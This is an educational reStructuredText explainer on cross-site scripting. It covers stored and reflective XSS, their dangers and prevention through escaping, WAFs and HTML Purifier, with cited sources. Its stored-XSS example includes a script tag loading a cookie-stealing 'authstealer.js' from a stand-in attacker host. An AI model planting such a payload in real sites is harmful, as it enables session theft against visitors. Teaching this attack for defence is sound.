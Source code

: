 Cross-Site Scripting
====================

Introduction
------------


Cross-site scripting is when an attacker inserts code into a legitimate website, 
and is considered one of the biggest website vulnerabilities. Web sites are 
especially vulnerable  when they don't use validation or encoding on user generated 
data. [xss]_

Cross-Site Scripting 


What is Cross-site scripting and Why is it Dangerous?
-----------------------------------------------------


* XSS, or Cross-Site Scripting is inserting malicious code into an actual website 
to gather information from the users. 

* Most danger lies on the users of the sites, as the code targets their information 
and use rather than the website itself. [xss]_ 

* Some examples of what dangerous XSS could do include: 
	1. Access session cookies, which can be used to impersonate the user
	2. Keylogging, which tracks the users keystrokes to catch usernames and passwords
	3. Phishing, or sending out fake and/or malicious emails
	4. Installing malicious software or viruses on the user's computer
	5. and Identity Theft [xss]_
	
* There are two different types of XSS attacks, stored and reflective

* Stored xss is "stored", or imbeded, on the website itself and steals data everytime 
the website is visited. [xss-prevention]_ It is also know as "persistant XSS", 
and can be the more dangerous of the two types. [xss-attacks]_

* Reflective xss is stored in a link embedded in the website that the user has to 
click on to activate. [xss-attacks]_ 


What Can Be Done to Prevent XSS through Web Security
----------------------------------------------------
	
* Web Application Firewall(WAF) - most common protection [xss-attacks]_ 
	
* Signiture based Filtering - "identifies and blocks malicious requests" [xss-attacks]_ 
	
* Use escape characters -  escape any characters that could change the websites 
code [xss-prevention]_ 
		
	* PHP Applications can use **htmlentities()** , a built in function for 
	escaping characters 
	
	* Also escape any HTML, attribute, JavaScript, JSON (with HTML), CSS, and URL 
	before entering any untrusted or unvalidated data [xss_cheat_sheet]_
		
* Escape data output, not input - when displaying to user [xss-prevention]_ 

	* "Security researcher Jouko Pynnönen of Klikki Oy realized MySQL column 
	truncation can defeat before-insert XSS prevention strategies" [xss-prevention]_

* Avoid using straight HTML - use a markup language, such as Markdown or 
ReStructuredText

* If HTML is needed, such as on blogging site, use a library such as HTML Purifier 
to help validate the HTML [xss-prevention]_ 


What You Can Do To Spot/Prevent XSS
---------------------------

* Be careful of links that you click on in websites and through emails. 

* Make sure that websites that you are visiting are safe

* Have a good Anti-Virus/ Web Security, such as McAfee AntiVirus Plus, Bitdefender 
AnitVirus Plus, or Kaspersky Anti-Virus

Example of Cross-Site Scripting:
-------------------------------

.. figure:: sorted-XSS.png

	Stored XSS [xss-attacks]_ 

	
* Stored XSS Example: An attacker figures out that the comment section of a website can store 
HTML tags. They leave a comment that says: 
"Great price for a great item! Read my review here <script src="http://hackersite.com/authstealer.js"> </script>" [xss-attacks]_
This is a stored in the website, and everytime someone visits the page, they have their 
session cookies stolen
	
	* Harder for hackers to attempt, because they must find a highly trafficed site that 
	also has a security hole. [xss-prevention]_

* Reflective XSS: Similar to above, but the user would have to click on the link 
to activate the code. 


Sources
-------

.. [xss] "`What is Cross-Site Scripting and How Can You Fix it? <https://www.acunetix.com/websitesecurity/cross-site-scripting/>`_." Acunetix. N.p. n.d. Web. 16 Feb. 2017. 

.. [xss-attacks] "`Cross Site Scripting (XSS) Attacks <https://www.incapsula.com/web-application-security/cross-site-scripting-xss-attacks.html>`_." Incapsula.com. N.p., n.d. Web. 18 Feb. 2017.

.. [xss-prevention] "`Everything You Need to Know About Preventing Cross-Site Scripting Vulnerabilities in PHP - Paragon Initiative Enterprises Blog <https://paragonie.com/blog/2015/06/preventing-xss-vulnerabilities-in-php-everything-you-need-know>`_." RSS. Paragon Initiative Enterprises , 16 June 2015. Web. 19 Feb. 2017. 

.. [xss_cheat_sheet] "`XSS (Cross Site Scripting) Prevention Cheat Sheet <https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet>`_." XSS (Cross Site Scripting) Prevention Cheat Sheet - OWASP. N.p., n.d. Web. 19 Feb. 2017.

*Written by Kyann, Edited by Rasim and Cole.*

